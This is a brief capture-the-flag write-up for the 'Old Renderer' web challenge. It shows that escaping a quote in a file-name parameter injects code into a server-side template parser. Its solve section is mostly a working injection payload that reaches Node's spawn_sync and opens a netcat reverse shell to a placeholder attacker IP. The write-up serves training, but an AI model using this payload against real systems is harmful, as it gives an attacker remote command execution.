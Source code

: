 WU Old Renderer
Description
An old website using an old library developed by an old developer, what could go wrong ?

Author : Worty

Solve
As we control the template, we can put some breakpoint inside the library, and we can see that the parser.js variable can be injected by escaping the quote after the name of the file :

rename_value=");x=Object;w=a=x.constructor.call``;w.type="pipe";w.readable=1;w.writable=1;a.file="/bin/sh";a.args=["/bin/sh","-c","nc <YOUR_IP> 4444 -e /bin/sh"];a.stdio=[w,w];ff=Function`process.binding\x28\x22spawn_sync\x22\x29.spawn\x28a\x29.output`;ff.call``;//
